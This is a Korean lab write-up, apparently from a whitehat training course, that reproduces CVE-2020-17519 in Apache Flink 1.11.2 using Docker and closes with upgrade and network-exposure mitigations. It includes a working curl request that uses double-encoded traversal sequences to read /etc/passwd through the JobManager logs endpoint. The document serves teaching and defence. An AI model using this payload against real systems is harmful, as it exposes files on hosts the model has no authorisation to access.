

# Apache Flink JobManager Directory Traversal (CVE-2020-17519)

JobManager REST API의 디렉터리 트래버설(Directory Traversal)을 통한 임의 파일 읽기(Arbitrary File Read) 취약점

> 화이트햇 스쿨 4기 15반 - [김준서 (@Kimjunseo319)](https://github.com/Kimjunseo319)

* **Apache Flink**는 대규모 데이터 스트림 및 배치 데이터를 분산 환경에서 처리하기 위한 오픈소스 데이터 처리 프레임워크이다.

* Apache Flink 1.11.0부터 1.11.2까지의 버전에서는 JobManager REST API의 로그 파일 조회 기능이 사용자가 입력한 파일 경로를 적절하게 제한하지 않았다.

* 공격자가 JobManager REST 인터페이스에 접근할 수 있는 경우, `/jobmanager/logs/<filename>` 엔드포인트에 조작된 경로를 전달하여 JobManager 프로세스가 읽을 수 있는 로컬 파일에 접근할 수 있다.

참고 자료:

* [GitHub Advisory Database: GHSA-395w-qhqr-9fr6](https://github.com/advisories/GHSA-395w-qhqr-9fr6)
* [Fix Commit: apache/flink@b561010](https://github.com/apache/flink/commit/b561010b0ee741543c3953306037f00d7a9f0801)
* [NVD: CVE-2020-17519](https://nvd.nist.gov/vuln/detail/CVE-2020-17519)

## 환경 설정

Apache Flink 1.11.2로 구성된 취약한 JobManager와 TaskManager를 실행한다.

```bash
docker compose up -d
```

## 취약점 재현

JobManager의 로그 파일 조회 API는 원래 Flink 로그 디렉터리 내부의 파일만 제공해야 한다.

그러나 취약한 버전에서는 요청받은 파일명에 포함된 경로 정보를 제거하지 않고 로그 디렉터리와 결합한다. 따라서 공격자는 `..%252f` 문자열을 사용하여 상위 디렉터리로 이동할 수 있다.

다음 요청은 JobManager 컨테이너 내부의 `/etc/passwd` 파일에 접근한다.

```bash
curl --path-as-is "http://127.0.0.1:8081/jobmanager/logs/..%252f..%252f..%252fetc%252fpasswd"
```

요청이 성공하면 다음과 같이 컨테이너 내부의 사용자 계정 정보가 반환된다.



## 대응 방안
### 1. Flink 버전 업그레이드
아래와 같은 취약한 버전을 사용하고 있다면, 

`Apache Flink 1.11.0 ~ 1.11.2`

보안 패치가 적용된 버전인

`Apache Flink 1.11.3` 이상으로 업그레이드해야 한다.

### 2. REST API 외부 노출 제한
버전 업그레이드가 제한되는 상황일 경우, JobManager의 REST API 포트인 `8081`을 인터넷이나 신뢰할 수 없는 네트워크에 직접 노출하지 않는다.

## 환경 종료

Docker compose를 종료하고, 리소스를 삭제한다.

```bash
docker compose down
```

## 요약

* Apache Flink 1.11.0부터 1.11.2까지의 JobManager REST API는 디렉터리 트래버설 공격에 취약하다.
* 공격자는 `/jobmanager/logs/<filename>` 엔드포인트에 `..%252f`가 포함된 경로를 전달하여 JobManager 프로세스가 읽을 수 있는 로컬 파일의 내용이 노출될 수 있다.
* 공격 범위는 JobManager 프로세스가 가진 파일 읽기 권한으로 제한된다.